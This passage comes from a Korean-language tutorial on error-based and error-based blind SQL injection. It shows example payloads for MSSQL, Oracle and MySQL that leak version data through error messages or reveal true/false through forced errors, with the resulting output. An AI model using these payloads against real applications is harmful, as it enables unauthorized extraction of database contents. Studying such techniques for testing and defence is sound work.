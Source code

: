 ```SQL
SELECT convert(int,@@version);
SELECT cast((SELECT @@version) as int);
/*
Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2014 - 12.0.2000.8 (Intel X86) 
	Feb 20 2014 19:20:46 
	Copyright (c) Microsoft Corporation
	Express Edition on Windows NT 6.3 <X64> (Build 9600: ) (WOW64) (Hypervisor)
' to data type int.
*/
```

### Oracle
Figure11 Oracle Error based SQLI 응용 예시 - 1

```SQL
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;
/*
ORA-20000: Oracle Text error:
DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist
ORA-06512: at "CTXSYS.DRUE", line 183
ORA-06512: at "CTXSYS.DRITHSX", line 555
ORA-06512: at line 1
*/
```

## Error based Blind SQL Injection
Error based Blind SQL Injection 은 앞서 알아봤던 Blind SQLI 와 Error based SQLI 를 동시에 활용하는 공격 기법입니다

이를 통해 임의로 에러를 발생시키고 참 / 거짓을 판단해 데이터를 추출할 수 있습니다

Error based SQLI 기법에서는 에러 메시지를 통해 출력된 데이터로 정보를 수집해 출력값에 영향을 받지만 Error based Blind SQLI 을 이용하면 에러 발생 여부만을 필요로 하기 때문에 용이하게 사용할 수 있습니다

Figure12 는 해당 기법을 이용한 예시 쿼리입니다

쿼리를 살펴보면 MySQL 의 Double 자료형 최댓값을 초과해 에러를 발생시킵니다
쿼리가 실행되면 서버가 반환하는 HTTP 상태 코드 또는 애플리케이션의 응답 차이를 통해 에러 발생 여부를 확인하고 참 / 거짓 여부를 판단할 수 있습니다

Figure12 Error based Blind SQLI 공격 예시

```SQL
mysql> select if(1=1, 9e307*2,0);
ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
mysql> select if(1=0, 9e307*2,0);
+--------------------+
| if(1=0, 9e307*2,0) |
+--------------------+
|                  0 |
+--------------------+
1 row in set (0.00 sec)
```

